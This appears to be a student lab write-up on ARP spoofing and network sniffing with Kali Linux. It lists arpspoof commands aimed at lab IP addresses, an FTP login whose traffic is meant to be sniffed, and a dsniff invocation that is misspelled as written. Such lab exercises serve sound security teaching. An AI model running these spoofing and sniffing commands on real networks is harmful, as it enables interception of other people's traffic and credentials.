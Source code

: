 # EXP.NO:04
# DATE:12-04-2024

# ARP-Attack-and-Network-Sniffing

# AIM:

To explore network sniffing and ARP Attacks

# ALGORITHM:
Step 1: Install kali linux either in partition or virtual box or in live mode
Step 2: Investigate on the various categories of tools as follows.
Step 3: Open terminal and try execute some kali linux commands

## ARP Attacks:  
ARP spoofing: A hacker sends fake ARP packets that link an attacker's MAC address with an IP of a computer already on the LAN. 
Boot kali and Windows7 virtual machines.
In windows 7 give the command 
```
arp -a
```
## OUTPUT:
![1 (1)](https://github.com/JAYAVARTHAN-P/ARP-Attack-and-Network-Sniffing/assets/121369281/17813182-76da-4fee-b66d-9399bfdad933)


From kali linux issue the command :
```
sudo arpspoof -i eth0 -t <target system> <gateway>

sudo arpspoof -i eth0 -t 192.168.34.254 192.168.34.195
```
## OUTPUT:
![2 (1)](https://github.com/JAYAVARTHAN-P/ARP-Attack-and-Network-Sniffing/assets/121369281/62cce3b9-2360-4057-a1aa-9d84caeefe8c)


 dsniff:In Metasploit open the ftp console as below. Also you can try other ftp websites ftp.vim.org
 ```
ftp 192.168.34.65
```
## OUTPUT:
![3](https://github.com/JAYAVARTHAN-P/ARP-Attack-and-Network-Sniffing/assets/121369281/1d89a1a7-15b4-4138-b391-603d6b6b4126)


In Kali issue the following commands:
```
sudo dsnifff
```
## OUTPUT:
![4](https://github.com/JAYAVARTHAN-P/ARP-Attack-and-Network-Sniffing/assets/121369281/825f5c97-dd28-417a-8fce-13af64cd53ad)


Invoke the wireshark and examine the various menus  and controls of the tool:
![5](https://github.com/JAYAVARTHAN-P/ARP-Attack-and-Network-Sniffing/assets/121369281/97b5d83b-c9c6-4d4c-9ae2-29deb150069b)


## RESULT:
The kali linux tools for ARP Attack and Network Sniffing were identified successfully
